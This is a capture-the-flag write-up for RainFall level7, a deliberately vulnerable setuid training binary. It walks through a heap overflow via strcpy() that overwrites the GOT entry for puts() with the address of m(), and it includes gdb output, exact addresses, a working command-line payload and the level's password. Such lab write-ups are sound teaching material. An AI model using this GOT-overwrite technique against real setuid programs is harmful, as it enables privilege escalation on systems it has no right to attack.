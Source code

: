 <p align="justify">

level7 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level7/level7
```

level7 rights:
```Shell
-rwsr-s---+ 1 level8 users  5648 Mar  9  2016 level7
```

Here is what we get when testing:
```Shell
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 asd
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 asd bgj
~~
```

It's a bit similar to the previous one.
Decompiling with Ghidra on https://dogbolt.org/ shows five things:
- the program takes two arguments and does four `malloc()`, two for arrays and two for each of their second index
- `strcpy()` is used twice to copy the arguments at each index
- `fopen()` and `fgets()` fetch and store the password in a global `c` variable
- the program uses `puts()` to display `~~`, when receiving two args
- there is an unused `m()` function that prints the content of `c`

The goal is therefore to find a way to call `m()` after the password has been loaded into `c`. Maybe we can replace the last `puts()` call by a call to `m()`. If we can find where the address of `puts()` is stored in GOT, we can replace it with `m()`. But how can we overwrite this address?
We know that `strcpy()` is vulnerable to buffer overflows. It means that whatever we send as arguments to the program can potentially overwrite slots in the memory. Let's use `ltrace` to calculate the correct offset for our payload:
```Shell
level7@RainFall:~$ ltrace ./level7
[...]
// malloc(8) = 0x0804a008  // array1
malloc(8) = 0x0804a018  // arg1
malloc(8) = 0x0804a028  // array2
// malloc(8) = 0x0804a038  // arg2
```
Since we want to store `puts()` at the second index of the second array, we must:
- overflow arg1
- reach the second array
- reach the second index of the second array.
We must subtract 0x0804a028(array2) - 0x0804a018(arg1) = 16. This is equal to overwrite enough to reach the start of the second array. But what we want is reaching the second index, so let's add 4 (half of 8-byte), making it a total of 20 bytes of padding.

Next, let's find where `puts()` is located in GOT:
```Shell
(gdb) disas main
[...]
0x080485f7 <+214>:   call   0x8048400 <puts@plt>
[...]
(gdb) disas 0x8048400
[...]
0x08048400 <+0>:     jmp    *0x8049928
[...]
```
The jump is done to the address of `puts()`, which converted to Little Endian is: `\x28\x99\x04\x08`. So this is where we want to store the address of `m()`.

Let's find what it is:
```Shell
(gdb) x m
0x80484f4 <m>:  0x83e58955
```
In Little Endian: `\xf4\x84\x04\x08`.

Finally, our two arguments will be:
- $(python -c 'print("A" * 20 + "\x28\x99\x04\x08")') which is the padding + the address of `puts()`
- $(python -c 'print("\xf4\x84\x04\x08")') which is the address of `m()`

And the result is:
```Shell
level7@RainFall:~$ ./level7 $(python -c 'print("A" * 20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1721403522
```
</p>